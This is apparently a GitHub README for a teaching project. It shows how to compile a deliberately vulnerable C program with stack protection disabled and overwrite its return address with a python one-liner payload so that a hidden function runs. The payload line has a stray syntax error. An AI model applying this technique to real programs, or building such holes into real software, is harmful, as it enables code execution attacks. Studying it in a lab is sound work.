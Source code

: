 # BufferOverflow
Writing a buffer overflow vulnerability and exploiting it.

# Quick Start
1. Compile the c file. Disabling stack protection and compiling for a 32 bit machine.

`$ gcc -fno-stack-protector -m32 vulnerability.c`

2. Detrmine the address of the malicious function on your machine. You can do this in two ways.

  a. Easy method. run `./a.out` and it will print the address for you.
  b. Cooler method. run `objdump -d a.out | less` and find the address manually.
  
3. Determine if you are on a Big Endian or Little Endian Machine. You can probably google this.

4. Run the injection using your malicious address in the proper LE/BE order
  
  `python -c 'print "a"*32 . + "\xa0\x84\x04\x08"' | a.out`
  
  Note: If you are on a LE machine, inject a LE ordered address. Otherwise, inject a BE ordered address.
  My malicious address was 080484a0 on a LE macine.
  



# Debugging
The malicious print statement was not printing until I flushed the printf buffer by adding a new line character '\n'.
If you are messing around with this, don't forget to flush the buffer or will just receive seg faults and not feel like a hacker :(
